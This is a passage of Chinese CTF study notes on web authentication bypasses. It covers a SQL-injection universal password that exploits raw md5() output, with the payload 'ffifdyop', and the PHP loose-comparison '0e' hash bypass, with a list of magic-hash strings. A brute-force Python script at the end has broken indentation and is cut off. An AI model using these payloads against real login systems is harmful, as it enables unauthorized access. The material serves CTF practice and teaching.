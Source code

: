 > 利用md5($pass,true)构造万能密码sql注入
>
> - 后端查询语句：
>
>   ```sql
>   select * from 'admin' where password=md5($pass,true)
>   ```
>
> - md5(string,raw)
>   String: 必需，为要计算的字符串
>   Raw: true:-原始16字符二进制格式
>   false:-默认。32字符十六进制数
>
> - 若MD5值经hex转换为字符串后为’or’+balabala这样的字符串；那么拼接的查询语句为：
>
>  ```sql
>   select * from `admin` where password=''or'balabala'
>  ```
>
> - 当’or’后的值为true时，即可构成万能密码；在此利用到一个mysql特性：
>  `在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数`（测试时发现只要是数字都可以）
>   (ps：这种情况必须有单引号括起来
>   如`password='xxx' or '1xxxxxxxxx'`就相当于`password='xxx' or 1`；故返回值为true)
>
> - 常用payload：`ffifdyop`

> 弱类型比较bypass
>
> 利用一些MD5编码后为0e开头的字符串
>
> ```python
> 一些md5编码后得到0exxx（此处xxx为十进制字符）的字符串
> 原字符串					md5值
> QNKCDZO			0e830400451993494058024219903391
> 240610708		0e462097431906509019562988736854
> aabg7XSs		0e087386482136013740957780965295
> aabC9RqS		0e041022518165728065344349536299
> s878926199a		0e545993274517709034328855841020
> s155964671a		0e342768416822451524974117254469
> s214587387a		0e848240448830537924465865611904
> s214587387a		0e848240448830537924465865611904
> s878926199a		0e545993274517709034328855841020
> s1091221200a	0e940624217856561557816327384675
> s1885207154a	0e509367213418206700842008763514
> qebi7zl0		0e649420541288950724577306786996
> qebaur5g		0e352312259284787676841028696030
> qe20k7jl		0e416004725936696827118806457976
> qe9vwdjf		0e288029216666843876260611249898
> 
> # 补一些做题的脚本吧
> # 生成md5值为0exxx的--，还有一些套娃关卡的第一关也是要求验证码，改一下就能用了
> import hashlib
> l = 'qwertyuiopasdfghjklzxcvbnm1234567890'
> for i in l:
> for j in l:
> for k in l:
>     for m in l:
>         for n in l:
>             for o in l:
>                 for p in l:
>                     for q in l:
>                         f = i + j + k + m + n + o + p + q
>                         md5 = hashlib.md5(f.encode(encoding='UTF-8')).hexdigest()
>                         if md5[:2] == '0e' and str.isdigit(md5[2:]):